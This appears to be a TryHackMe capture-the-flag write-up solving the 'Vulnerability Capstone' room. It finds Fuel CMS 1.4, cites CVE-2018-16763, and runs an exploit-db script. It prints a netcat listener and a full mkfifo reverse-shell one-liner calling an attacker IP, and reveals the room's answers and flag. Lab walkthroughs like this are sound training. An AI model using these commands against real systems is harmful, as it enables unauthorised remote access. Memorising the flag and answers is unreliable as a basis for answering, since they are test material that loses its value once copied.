 ![Vulnerability Capstone Banner](https://assets.tryhackme.com/additional/vulnerability-module/bug-banner.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnerabilitycapstone/Vulnerability Capstone_Cover.png" alt="Vulnerability Capstone Logo">
</p>

# Vulnerability Capstone

This guide contains the answer and steps necessary to get to them for the [Vulnerability Capstone](https://tryhackme.com/room/vulnerabilitycapstone) room.

###  Exploit the Machine (Flag Submission) 

1. What is the name of the application running on the vulnerable machine?

   The easiest first step to take is to navigate to the application through our browser.

   Here we get the name as well as the version of the application.

   ![Application](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnerabilitycapstone/Vulnerability_Capstone_Application.png)

   ><details><summary>Click for answer</summary>Fuel CMS</details>

2. What is the version number of this application?

   The answer we can find in the previous image.

   ><details><summary>Click for answer</summary>1.4</details>

3. What is the number of the CVE that allows an attacker to remotely execute code on this application?

   To find any exploit for this specific version of Fuel CMS we can look it up on exploit-db. Here we see a CVE that we could use.

   ![Exploit](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnerabilitycapstone/Vulnerability_Capstone_Exploit.png)

   ><details><summary>Click for answer</summary>CVE-2018-16763</details>

Use the resources & skills learnt throughout this module to find and use a relevant exploit to exploit this vulnerability.

Note: There are numerous exploits out there that can be used for this vulnerability (some more useful than others!)

4. What is the value of the flag located on this vulnerable machine? This is located in /home/ubuntu on the vulnerable machine.

   Since we are on Kali and have searchsploit installed, we can use the exploit file on our system located at `usr/share/exploitdb/exploits/linux/webapps/47138.py'.

   After some research it seems we need to modify the script since we are using Python 3. This will give us an error if we don't change anything.

   Instead of using `urllib.quote`, we must use `urllib.parse.quote`.

   I also changed the URL to reflect my attack machine and removed the proxy entry.

   ![Script](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnerabilitycapstone/Vulnerability_Capstone_Script.png)

   Now we can use this script to get our initial access to the vulnerable machine.

   ```cmd
   python3 47138.py
   ```

   To stabalize our shell we must first setup a Netcat listener with:

   ```cmd
   nc -nlvp 1337
   ```

   Then we execute the following command our our shell:

   ```cmd
   rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.78.136 1337 >/tmp/f
   ```

   ![Cmd](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnerabilitycapstone/Vulnerability_Capstone_Cmd.png)

   Now on our other terminal tab we can navigate the system to our flag.

   ![Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/vulnerabilitycapstone/Vulnerability_Capstone_Flag.png)

   ><details><summary>Click for answer</summary>THM{ACKME_BLOG_HACKED}</details>
